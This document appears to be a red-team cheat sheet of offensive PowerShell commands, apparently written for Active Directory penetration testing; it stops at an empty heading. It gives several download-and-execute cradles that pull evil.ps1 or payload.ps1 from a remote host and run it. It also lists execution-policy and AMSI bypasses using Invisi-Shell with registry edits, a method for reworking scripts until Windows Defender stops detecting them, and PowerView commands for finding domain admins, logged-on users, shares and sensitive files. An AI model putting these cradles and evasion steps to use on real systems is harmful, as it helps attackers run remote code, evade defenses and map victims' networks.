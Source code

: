 ### Powershell Scripts/Modules


Import Script or Module :heavy_check_mark:
```
Import-Module C:\path\to\script.ps1
```

Find all commands in module 
```
Get-Command -Module <modulename>
```

Download & Execute Cradle :heavy_check_mark:
```
iex (New-Object Net.WebClient) .DownloadString('https://webservers/payload.ps1')
```

??
```
$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```
```
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```




### Powershell Detection
- System-wide transcription
- Script Block Logging
- AMSI (AntMalware Scan Interface)
- CLM (Constrained Language Mode)
 - Integration with Applocker & WDAC (Device Guard)

#### Bypasses
##### Execution Policy
:heavy_check_mark:
```
powershell -ExecutionPolicy bypass
```
```
powershell -c <cmd>
```
:heavy_check_mark:
```
powershell -encodedcommand
```
```
$env:PSExecutionPolicyPreference="bypass"
```

#### Security
##### AMSI

[Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) :sparkles:

###### **with admin privileges**
```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
set COR_PROFILER_PATH=
```

###### **with non-admin privileges**
```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
```

:broom: can be cleaned up with an *exit* command

#### AV Signatures - Windows Defender
[AMSITrigger](https://github.com/RythmStick/AMSITrigger)
This application will go through the script and indicate where it is being detected
```
AmsiTrigger_x64.exe -i C:\path\*.ps1
```
1. Scan using AMSITrigger
2. Modify the detected code
3. Rescan
4. Repeat the steps 2 & 3 till we get a result as “AMSI_RESULT_NOT_DETECTED” or “Blank”

Further steps can be taken to full obfuscate scripts with [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)



### Enumeration
#### PowerView
Get Current Domain
```
Get-Domain
```

Get object of another domain
```
Get-Domiain -Domain xxx.local
```

Get domain SID for current domain
```
Get-DomainSID
```

Get domain policy for the current domain
```
Get-DomainPolicyData
```

Get domain policy for another domain
```
Get-DomainPolicyData --domain xxx.local
```

Get domain controllers for the current domain
```
Get-DomainController
```

Get domain controllers for another domain
```
Get-DomainController –Domain xxx.local
```

Get a list of users in the current domain
```
Get-DomainUser
```
```
Get-DomainUser -Identity <user>
```

Get list of all properties for users in the current domain
```
Get-DomainUser -Identity <user> -Properties *
```
```
Get-DomainUser -Properties samaccountname,logonCount
```



Search for a particular string in a user's attributes:
```
Get-DomainUser -LDAPFilter "Description=*built*" | Select name,Description
```

Get a list of computers in the current domain
```
Get-DomainComputer | select Name	
```
```
Get-DomainComputer –OperatingSystem "*Server 2016*"
```
```
Get-DomainComputer -Ping
```


Get all the groups in the current domain
```
Get-DomainGroup | select Name	
```
```
Get-DomainGroup –Domain <targetdomain>
```

Get all groups containing the word "admin" in group name
```
Get-DomainGroup *admin*
```

Get all the members of the Domain Admins group
```
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```

Get the group membership for a user:
```
Get-DomainGroup –UserName "<user>"
```

List all the local groups on a machine (needs administrator privs on non-dc
machines) :
```
Get-NetLocalGroup -ComputerName dcorp-dc -ListGroups
```

Get members of all the local groups on a machine 
*(needs administrator privs on non-dc machines)*
```
Get-NetLocalGroup -ComputerName <corp>-dc -Recurse
```

Get members of the local group "Administrators" on a machine 
*(needs administrator privs on non-dc machines)* :
```
Get-NetLocalGroupMember -ComputerName <corp>-dc -GroupNameAdministrators
```


Get actively logged users on a computer (needs local admin rights on
the target)
```
Get-NetLoggedon –ComputerName <servername>
```



Get locally logged users on a computer (needs remote registry on the
target - started by-default on server OS)
```
Get-LoggedonLocal -ComputerName <corp>-dc
```

Get the last logged user on a computer (needs administrative rights and
remote registry on the target)
```
Get-LastLoggedOn –ComputerName <servername>
```


Find shares on hosts in current domain.
```
Invoke-ShareFinder –Verbose
```


Find sensitive files on computers in the domain
```
Invoke-FileFinder –Verbose
```


Get all fileservers of the domain
```
Get-NetFileServer
```




#### ActiveDirectory Module










